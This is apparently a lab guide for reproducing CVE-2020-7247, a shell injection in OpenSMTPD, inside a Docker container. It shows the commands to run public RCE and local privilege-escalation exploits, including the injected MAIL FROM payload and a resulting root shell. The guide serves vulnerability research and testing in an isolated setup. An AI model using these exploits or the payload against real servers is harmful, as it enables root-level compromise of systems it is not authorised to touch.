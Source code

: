 # CVE-2020-7247 (Remote Code Execution in opensmtpd)

### Description

CVE-2020-7247 is a vulnerability affecting OpenSMTPD, a mail server
developed by the OpenBSD project, which is also available on several
Linux distributions such as Debian.  The flaw was identified by the
Qualys Security team and disclosed in January 2020.

[The
report](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt),
describes a shell injection in the SMTP server of `opensmtpd`, which
can lead to a Local Privilege Escalation or even a Remote Code
Execution as `root` if the server is publicly exposed.



### Reproducing a Vulnerable Environment

```shell
python -m decret --number 2020-7247 --release bullseye --directory opensmtpd --selenium
```

Once in the container, we can try to start opensmtpd.

```shell
root@cve-2020-7247:/# smtpd -d
info: OpenSMTPD 6.6.1p1 starting
warn: purge_task: opendir: No such file or directory
pony express: listen: Address already in use
smtpd: process pony socket closed
```

There is actually a small issue with this example.  Indeed, Docker
produces a `/etc/hosts` with two `localhost` lines (one for IPv4 and
one for IPv6), and `opensmtpd` tries to bind twice on the loopback.

The simple solution here is to rewrite `localhost` as `127.0.0.1` in
the configuration file (updating `/etc/hosts` is not possible, since
the file is handled by the Docker engine):

```shell
root@cve-2020-7247:/# sed -i s/localhost/127.0.0.1/ /etc/smtpd.conf
root@cve-2020-7247:/# /etc/init.d/opensmtpd start
```

### Simple testing method

The vulnerable version of `opensmtpd` should now be running.

You can try to use one of the available exploits, such as
`/tmp/decret/exploit_2_verified`, which allows you to execute an
(almost) arbitrary command as `root` (there are size and charset
limitations, that can be overcome using various tricks, such as the
one described in Qualys advisory):

```shell
root@cve-2020-7247:/# apt install -y python3 python-is-python3
root@cve-2020-7247:/# ls /tmp/surprise
ls: cannot access '/tmp/surprise': No such file or directory
root@cve-2020-7247:/# python /tmp/decret/exploit_2_verified  127.0.0.1 25 "touch /tmp/surprise"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
root@cve-2020-7247:/# ls /tmp/surprise
/tmp/surprise
```

You can also try to run the Local Privilege Escalation in `/tmp/decret/exploit_0_verified`:
```
root@cve-2020-7247:/# apt install -y gcc
[...]
root@cve-2020-7247:/# su toto
toto@cve-2020-7247:/$ perl /tmp/decret/exploit_0_verified LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cve-2020-7247 ESMTP OpenSMTPD
> HELO fnord
< 250 cve-2020-7247 Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 4192aeac Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 May 26 17:00 /usr/local/bin/pwned
# id
uid=0(root) gid=0(root) groups=0(root),1000(toto)
# 
```

If we update `opensmtpd` in the container (you should  : 
```shell
apt-get install opensmtpd
```
The exploits do not work anymore.



### One-liner

Using customization options `--run-lines` and `--cmd-line`, we can
create a vulnerable container and expose it to the host.

```shell
python decret.py -n 2020-7247 -r bullseye \
                 --selenium -d opensmtpd \
                 --port 25 --host-port 2525 \
                 --run-lines "sed -i s/localhost/0.0.0.0/ /etc/smtpd.conf" \
                             "echo 'match from any for domain \"cve-2020-7247\" action \"local\"' >> /etc/smtpd.conf" \
                 --cmd-line "smtpd -d"
```

Since `opensmtpd` is restricted by default to only allow local
operations, we have to make more changes to the `smtpd.conf` file.

Once the container is running, you can simply use one of the exploit
from the host, and check that it works:
```shell
# From host
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
bin/ls: cannot access '/tmp/DANGER': No such file or directory
$ python opensmtpd/exploit_2_verified 127.0.0.1 2525 'touch /tmp/DANGER'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
$ docker exec -ti cve-2020-7247 /bin/ls /tmp/DANGER
DANGER
```
